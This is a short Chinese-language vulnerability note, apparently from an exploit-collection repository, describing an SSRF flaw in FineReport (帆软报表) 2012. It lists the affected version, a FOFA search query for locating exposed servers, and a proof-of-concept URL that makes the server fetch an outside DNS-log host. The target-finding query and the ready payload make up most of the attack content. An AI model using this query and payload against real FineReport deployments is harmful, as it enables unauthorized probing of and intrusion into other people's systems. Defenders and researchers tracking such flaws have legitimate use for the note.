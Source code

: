 # 帆软报表-2012-SSRF漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取造成SSRF

## 漏洞影响

> [!NOTE]
>
> 帆软报表 2012

## FOFA

> [!NOTE]
>
> body="down.download?FM_SYS_ID"

## 漏洞复现

漏洞验证Url为

```
/ReportServer?op=resource&resource=0m0m6k.dnslog.cn
```

![](帆软报表-2012-SSRF漏洞.assets/16273635014287639.jpg)